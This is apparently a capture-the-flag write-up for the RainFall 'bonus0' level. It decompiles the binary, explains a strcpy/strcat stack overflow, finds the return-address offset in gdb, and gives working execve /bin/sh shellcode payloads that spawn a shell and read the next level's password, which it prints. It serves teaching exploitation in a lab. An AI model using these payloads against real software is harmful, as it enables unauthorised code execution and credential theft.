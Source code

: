# Bonus0

## Analysis

```bash
bonus0@RainFall:~$ ./bonus0 
 - 
hi 
 - 
there
hi there
bonus0@RainFall:~$ ./bonus0 
 - 

 - 
```

Executing the program prompts us with inputs fields, it then prints what we wrote as an input. The program seems to read stdin 2 times.

### Code

We have 3 interesting functions:

### 1. `main()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[42]; // [esp+16h] [ebp-2Ah] BYREF

  pp(s);
  puts(s);
  return 0;
}
```

- We have a 42bytes buffer `s` on the stack
- `s` is passed to `pp()`
- `s` is then printed by `puts()`

### 2. `pp()`

```c
char *__cdecl pp(char *dest)
{
  char src[20]; // [esp+28h] [ebp-30h] BYREF
  char v3[28]; // [esp+3Ch] [ebp-1Ch] BYREF

  p(src, " - ");
  p(v3, " - ");
  strcpy(dest, src);
  *(_WORD *)&dest[strlen(dest)] = unk_80486A4;
  return strcat(dest, v3);
}
```

- 2 buffers: `src` of 20bytes and `v3` of 28bytes
- `src` is passed to `p()` first.
- `v3` is also passed to `p()`.
- Both `p()` calls don't specify any length for the passed buffers.
- notes:
    - `strcpy()` doesn't check for length -> buffer overflow
    - `strcat()` doens't check for available length and modified `s` passed from `main()`

### 3. `p()`

```c
char *__cdecl p(char *dest, char *s)
{
  char buf[4104]; // [esp+10h] [ebp-1008h] BYREF

  puts(s);
  read(0, buf, 0x1000u);
  *strchr(buf, 10) = 0;
  return strncpy(dest, buf, 0x14u);
}
```

- a 4104bytes buffer `buf`.
- prints `s`.
- reads 4096bytes from `stdin` into `buf`.
- replaces `10` or newline, in `buf` by 0.
- copies 20 bytes of `buf` into `dest` (`dest` won't contain any null terminating byte if its size > 20)

## Exploit explained

Since we don't have access to anything through this code, we will have to spawn a shell using a buffer oferflow with a shellcode.

The said shellcode will be stored in the `char buf[4104]` inside of `p(char *dest, char *s)`. Since `p()` is executed twice, the content of its local buffer will be overwritten if we pass a bigger input during the second exec, so we need to make sure to pass enough garbage characters into the buffer during the first one.

```
arg 1: [100 padding] + [shellcode]

arg 2: [9 padding] + [shellcode addr] + [8 padding]
```

```bash
bonus0@RainFall:~$ python -c 'print"aaaabbbbccccddddeeee"' > /var/crash/1.txt 
bonus0@RainFall:~$ python -c 'print"ffffgggghhhhiiiijjjj"' > /var/crash/2.txt

(gdb) r < <(cat /var/crash/1.txt; sleep .50; cat /var/crash/2.txt)        
Starting program: /home/user/bonus0/bonus0 < <(cat /var/crash/1.txt; sleep .50; cat /var/crash/2.txt)
 - 
 - 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjj��� ffffgggghhhhiiiijjjj���

Program received signal SIGSEGV, Segmentation fault.
0x69686868 in ?? ()
```

Segfaults happens while trying to access `0x69686868`, it corresponds to the part of our second argument:

```
            [eip]
ffffggggh | hhhi | iiijjjj���
```

This is where we should put the address of the shellcode contained in our buffer in `p()`, the offset being 9.

## pp() behavior

We have two buffers: `char src[20]` and `char v3[28]`, its 8 bytes difference doesn't matter since `strncpy(dest, src, 0x14)` inside of `p()` only copies 20 characters inside the dest, so `v3` will never be full.

`strcpy(dest, src)` can behave unintentionally if the size of src > 20, in this case, it will copy src and whatever is after it in memory until it finds a `\0`. In our case, `v3` is next.

So at this point `dest` is made of: `[src] + [v3]`.

`*(_WORD *)&dest[strlen(dest)] = unk_80486A4;` this line can be resumed to `dest[strlen(dest)] = 0;` which just null terminates the string.

Lastly, `strcat(dest, v3)` will transform our `dest` into the following: `[src] + [v3] + [v3]`.

# Solution

<details>
  <summary>Spoiler</summary>


We will use the following command to form, pass our payload and spawn a shell to cat the password:

```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 8'; cat) | ./bonus0
 - 
 - 
��������������������AAAAAAAAA����BBBBBBB��� AAAAAAAAA����BBBBBBB���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

There is also this solution, which works inside of a shell but not while using gdb:

```bash
(python -c 'print "a" * 46 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; python -c 'print "ggggghhhh" + "\xbe\xe6\xff\xbf" +"jjjjkkkk"'; cat) | ./bonus0
```
</details>
